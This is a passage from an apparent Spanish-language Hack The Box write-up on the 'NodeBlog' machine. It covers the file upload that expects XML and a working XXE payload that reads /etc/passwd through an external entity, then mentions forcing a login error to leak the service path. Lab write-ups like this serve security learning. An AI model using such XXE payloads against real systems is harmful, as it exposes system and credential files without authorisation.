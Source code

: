 <img src="/writeups/assets/img/NodeBlog-htb/5.png" alt="">

Pruebo a subir un archivo pero recibo un error. La data tiene que estar en XML. Se muestra un ejemplo

<img src="/writeups/assets/img/NodeBlog-htb/6.png" alt="">

Consigo ver el ```/etc/passwd``` a través de un XXE

```null
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]>
<post>
  <title>&example;</title>
  <description>&example;</description>
  <markdown>&example;</markdown>
</post>
```

<img src="/writeups/assets/img/NodeBlog-htb/7.png" alt="">

Produzco un error al iniciar sesión para que se leakee la ruta donde se encuentra montado el servicio
